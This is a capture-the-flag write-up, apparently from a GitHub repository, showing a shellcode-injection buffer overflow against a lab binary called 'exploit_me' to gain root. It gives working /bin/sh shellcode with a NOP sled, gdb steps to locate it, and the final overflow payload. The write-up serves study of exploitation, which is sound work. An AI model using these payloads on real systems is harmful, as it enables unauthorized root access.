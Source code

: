 # EXPLOIT 3: ANOTHER BUFFER OVERFLOW METHOD

Returning to `zaz` user, we can explore an alternative method to exploit the binary.

## Shellcode injection

Instead of performing a `Ret2libc` attack, we can opt for a `Shellcode injection`. The objective of this attack is to inject the opcode of a shellcode into the stack after overflowing the buffer.

We'll be injecting [this shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) for this exploit. First, we need to place the shellcode, with a NOP-slide preceding it, into the environment variables which will shorten its address and make it more accessible.

```
export SHELLCODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

Next, we need obtain the address of the environment variable we set up in order to construct the payload. We'll accomplish this using **gdb**.

```
> b main
> r
> call (char *)getenv("SHELLCODE")
```

The address of the environment variable is `0xbffff8a7`. We'll examine the next 50 addresses to identify a location where there will be only NOP-slide instructions in the opcode, ensuring a safe landing for our shellcode.

```
x/50x 0xbffff8a7
```

![alt text](../images/shellcode.png)

We can use any address that contains only NOP-slide instructions for the payload. For instance, `0xbffff8d7` is a suitable choice.\
Finally, since we know from the previous exploit in [writeup1](../writeup1.md) that the offset is at 140, we can construct the payload using all the information we've gathered as follows:

```
./exploit_me $(python -c 'print("A"*140 + "\xd7\xf8\xff\xbf")')
```

And we're root!